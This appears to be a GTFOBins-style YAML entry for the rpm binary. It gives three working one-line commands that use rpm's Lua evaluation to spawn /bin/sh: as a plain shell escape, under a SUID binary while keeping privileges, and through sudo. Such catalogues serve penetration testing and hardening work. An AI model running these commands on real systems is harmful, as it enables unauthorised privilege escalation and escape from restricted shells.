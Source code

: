 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
---
```

